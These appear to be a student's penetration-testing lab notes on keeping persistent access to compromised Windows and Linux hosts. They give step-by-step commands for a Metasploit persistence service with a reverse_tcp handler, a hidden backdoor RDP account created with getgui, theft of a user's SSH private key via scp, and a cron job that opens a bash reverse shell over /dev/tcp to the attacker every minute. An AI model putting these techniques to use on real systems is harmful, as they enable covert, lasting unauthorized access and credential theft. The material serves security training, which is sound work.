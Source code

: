 
Persistence is techniques to keep access when access is cut off
Gaining initial foothold is not enough, you need to setup and maintain persistent access to your target. 


#### Windows Persistence

##### Persistence via Services 

- identify vulnerable system you can exploit on target system 

After getting initial foothold and a meterpreter session search for **persistence_service** 

in msfconsole: 
- ``use persistence service`` (you need admin credentials for this module)
- change ``lport`` 
- in real life scenario change the service name to make sure that it blends in. 
- ``kill`` the sessions (no more sessions on target)

how to regain access with persistence? 
- restart msfconsole 
- use ``multi/handler ``
- set payload windows/meterpreter/reverse_tcp 
- set ``lhost`` and ``lport`` 
- exploit 

every time you run the handler the session is created. 



##### Persistence via RDP 

badblue_ext_overflow 
- identify vulnerable system on target 
- migrate to stable process in meterpreter 

Gain persistence: 
1. ``run getgui -e -u hacker -p hacked_123321 ``
	- getgui will check if RDP is enabled if not it will enable it and, add a user and hide it from login screen 
	- this command also provides a resource script to clean up

utilize rdp client to connect to new account created: 
- ``xfreerdp /u:hacker /p:hacked123321 /v:target_ip ``

login on screen with new credentials and open cmd (run as administrator): ``whoami /priv ``
``net user ``




#### Linux Persistence

##### Persistence via SSH keys

- Linux is deployed as a server operating system (to host applications) and as a result linux servers typically accessed remotely via services/protocol's such as ssh. 
- if ssh is enabled and running on a linux system you have compromised, you can take advantage of the ssh configuration to establish persistent access on the target system. 
- in most cases linux servers will have key-based authentication enabled for the ssh service, allowing users to access the linux system remotely without the need for password 
- After gaining access to a linux system, we can transfer the ssh private key of a specific user account to our system and use that ssh private key for all future authentication and access. 




ssh student@target_ip 
password: password 

- login into compromised account with ssh:  student@target_ip 
- ls -al 

we have two interesting folders: .ssh folder and a binary folder called wait. 
- cat wait  (when you are done delete the wait binary)
- cd .ssh/  (here we will find the private key, (generated with sshgn)), cat the content of the private key
- cat the other content in the ssh file 
- copy id_rsa onto our system with ``scp`` which will allow us to download a file from the target system to our kali system, via ssh: ``scp student@target_ip:~/file_you_want_to_download ``
			 - ``~/.ssh/id_rsa .``  (the ``.`` means you want to copy it to the directory you currently in)

- give the id_rsa file the permissions that typically associated with private keys : ``chmod 400 id_rsa ``

Log back into the system with ssh and compromised account
- when you are SUPER SURE that you downloaded the rsa key you remove the wait file: ``rm wait `` which will reset the connection. 

Even when the user changes the password, we can still login using the **rsa private key.** 
- ``ssh  -i name_privatekey_file user@target_ip ``
``   ssh -i id_rsa student@targetip``









##### persistence via Cron Jobs 

- Linux implements task scheduling through a utility called Cron. Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule
- An application or script that has been configured to be run repeatedly with Cron is known as a Cron job. 
- We can use cron jobs to execute a command or script at a fixed interval to ensure we have persistent access to the target system. 
- anatomy of a cron job: ![[Pasted image 20230925152000.png]]
first 5 fields are used to specify the time and date 

- log onto system with compromised user credentials using ssh: ``ssh user_name@target_ip ``
- One we set up our crownjob we remove the binary wait to reset and simulate what would happen if the users password would change, taking away our accesspoint. 
- ``cat /etc/cron ``
- create cronjob that runs every minute of the day,month,year : 
  ``echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/kali_ip/port_netcat_listernet 0>&1'" > cron``
  

    - `/bin/bash -c`: This part specifies the shell to use, in this case, `/bin/bash`, and the `-c` option indicates that the following command should be executed by the shell.
        
    - `'bash -i >& /dev/tcp/kali_ip/port_netcat_listner 0>&1'`: This part is the actual command to run. It executes `/bin/bash` with the `-i` option, which stands for "interactive." This means it opens an interactive shell session. The `>& /dev/tcp/kali_ip/port_netcat_listernet` part is a redirection that sends both standard input (`0`) and standard output (`1`) to a network socket specified as `/dev/tcp/kali_ip/port_netcat_listernet`.
  
- ``cat cron ``
- add the cron job: ``crontab -i cron ``
- ``crontab -l ``

(removing the wait file is for simulation purposes only)

- SET UP NETCAT LISTNER: ``nc -nvlp 1234`` (the port should be the same as specified in cronjob command)

